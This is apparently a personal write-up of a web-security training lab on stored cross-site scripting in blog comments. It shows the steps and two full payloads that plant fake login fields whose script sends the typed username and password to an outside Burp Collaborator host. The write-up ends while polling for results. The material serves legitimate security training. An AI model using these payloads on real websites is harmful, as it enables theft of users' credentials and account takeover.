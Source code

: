 # Lab: Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

**NOTE**

*To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.*

*Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.*

# Step 1 Find XSS vuln in comments function:

Adding a POC payload into a blog-post comment:

![image](https://user-images.githubusercontent.com/83407557/210614348-97de9160-9930-4c86-bfea-04c84d9521cc.png)

When I go back and view my comment, the page tries to print, verifying XSS:

![image](https://user-images.githubusercontent.com/83407557/210614535-9b0d9049-b482-451b-9375-3cc82d9e31b4.png)

# Step 2 Create a password stealing XSS payload

First I need to grab my collaborator's URL:

![image](https://user-images.githubusercontent.com/83407557/210614710-a6c10114-64e1-452b-a59d-bb52087ad3b4.png)

`c3gtx1iww0cl1k1q6psn1ue43v9mxel3.oastify.com`

Then I craft an XSS payload with this URL:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('c3gtx1iww0cl1k1q6psn1ue43v9mxel3.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

# Step 3 use payload in a comment

![image](https://user-images.githubusercontent.com/83407557/210622864-cd81f60d-2a5c-4669-87f0-65a4e901fb36.png)

# Step 4 poll collaborator

Not getting anything, perhaps oastify.com is being blocked. Trying a new payload:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('c3gtx1iww0cl1k1q6psn1ue43v9mxel3.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
![image](https://user-images.githubusercontent.com/83407557/210623680-66df2f4a-1f80-48e9-b289-35da34140c85.png)

